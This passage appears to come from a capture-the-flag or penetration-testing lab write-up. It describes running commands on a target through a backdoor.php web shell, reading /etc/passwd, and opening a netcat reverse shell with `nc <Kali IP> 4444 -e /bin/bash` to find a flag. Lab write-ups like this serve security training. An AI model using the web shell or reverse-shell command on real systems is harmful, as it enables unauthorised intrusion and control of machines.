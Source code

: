       ![exploit.sh_file](Images/Offensive/exploit.sh.png)
      - Nagivated to `http://<Target 2 URL>/backdoor.php?cmd=<CMD>` which allowed to run bash commands on Target 2.
        - For example, /etc/passwd
        ![etc_passwd](Images/Offensive/etc_passwd.png)
      - Next, used this exploit to open backdoor reverse shell on the target. So on Kali VM, netcat listner was started:
      
        ![netcat](Images/Offensive/netcat.png)
      - In the browser, command `nc <Kali IP> 4444 -e /bin/bash` was used to connect the reverse shell
      ![netcat2](Images/Offensive/netcat2.png)
      ![netcat3](Images/Offensive/netcat3.png)
      - using the shell opened, flag 2 was located. <br>
      ![FLAG2_2](Images/Offensive/flag2_2.png)
